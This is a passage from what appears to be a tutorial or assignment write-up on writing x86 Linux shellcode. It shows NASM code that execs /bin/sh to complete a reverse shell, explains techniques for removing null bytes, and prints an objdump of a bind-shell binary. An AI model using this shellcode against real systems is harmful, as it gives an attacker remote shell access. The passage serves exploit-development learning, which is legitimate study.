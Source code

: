 ### execve
Finally, we actually exec /bin/sh to complete the reverse shell.  At this point the target of the reverse shell should be able to enter commands and see responses.
```nasm
mov al,0xb          ; execve
xor edx,edx         ; zero out edx
push edx            ; push edx to stack to terminate string
push 0x68732f6e     ; n/sh
push 0x69622f2f     ; //bi
mov ebx, esp        ; save pointer to stack to ecx
mov ecx, edx        ; argv[]
;mov edx, edx       ; envp[]
int 0x80
```

### Dealing with null bytes
Most of these are simple to remove as they are due to referencing the full 32bit register where we can simply reference the 8 bit register.

For moving values into registers:<br/>
```mov    eax,0x66``` should be converted to ```mov   al,0x66```<br/>
```mov    ebx,0x1``` should be converted to ```mov    bl,0x1```

For the pushing of 0x0 we need to use a different approach.  We can either find a null byte already on the stack or we can use a zero'ed out register and push that to the stack (often requiring us to explicitly zero it out first).

Example:<br/>
```push   0x0```<br/>
can change into:<br/>
```xor edx,edx         ; zero out edx```<br/>
```push edx            ; push edx to stack to terminate string```

You can use objdump to quicly identify null bytes in the assembly.  I have marked where I initially had to deal with null bytes.

```nasm
; initial shellcode
[sengen@manjaro-x86 assignment1]$ objdump -d ./bind_shell_asm2 -M intel

./bind_shell_asm2:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	89 c3                	mov    ebx,eax
 8048064:	50                   	push   eax
 8048065:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804806a:	bb 01 00 00 00       	mov    ebx,0x1  ; <==
 804806f:	53                   	push   ebx
 8048070:	6a 02                	push   0x2
 8048072:	89 e1                	mov    ecx,esp
 8048074:	cd 80                	int    0x80
 8048076:	89 c7                	mov    edi,eax
 8048078:	b8 66 00 00 00       	mov    eax,0x66 ; <==
 804807d:	bb 02 00 00 00       	mov    ebx,0x2  ; <==
 8048082:	6a 00                	push   0x0      ; <==
 8048084:	66 68 1a 85          	pushw  0x851a
 8048088:	66 6a 02             	pushw  0x2
 804808b:	89 e1                	mov    ecx,esp
 804808d:	6a 10                	push   0x10
 804808f:	51                   	push   ecx
 8048090:	57                   	push   edi
 8048091:	89 e1                	mov    ecx,esp
```